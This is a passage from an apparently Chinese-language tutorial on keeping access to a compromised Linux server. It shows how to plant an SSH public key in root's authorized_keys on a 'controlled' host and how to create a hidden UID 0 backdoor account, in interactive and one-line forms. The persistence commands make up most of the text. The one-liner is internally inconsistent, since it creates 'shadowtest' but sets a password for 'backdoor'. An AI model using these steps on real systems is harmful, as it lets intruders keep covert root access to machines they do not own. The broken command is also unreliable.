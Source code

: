 这种方式，会影响系统运行，我在执行vim后就会卡顿。



## 7. ssh公钥免密

将客户端生成的ssh公钥写到所控服务器的~/.ssh/authorized_keys中，然后客户端利用私钥完成认证即可登录。

生成公私钥

```
ssh-keygen -t rsa
```

此时进到 ～/.ssh目录可以看到 id_rsa 和 id_rsa.pub 两个文件

```
cd ~/.ssh
ls
```

将上边 本地mac 的 **id_rsa.pub**里边的内容，复制到 服务器上的 **.ssh/authorized_keys** 文件中

```
#客户端执行
scp ~/.ssh/id_rsa.pub root@172.16.42.150:/root/id_rsa.pub
#服务端执行
cat /root/id_rsa.pub >> /root/.ssh/authorized_keys
```

服务器修改权限

```
chmod 700 ~/.ssh 
chmod 600 ~/.ssh/authorized_keys
```

免密登陆

```
ssh root@ip # 默认端口登陆
ssh root@ip -p 端口号 # 指定端口登陆
```



## 8. 创建uid为0的后门账户

交互式创建

```
[root@debian ~]# useradd -o -u 0 shadowtest
[root@debian ~]# passwd shadowtest
新的 密码：
```

非交互式

```
useradd -o -u 0 shadowtest && echo "shad0wtest" | passwd backdoor --stdin
```
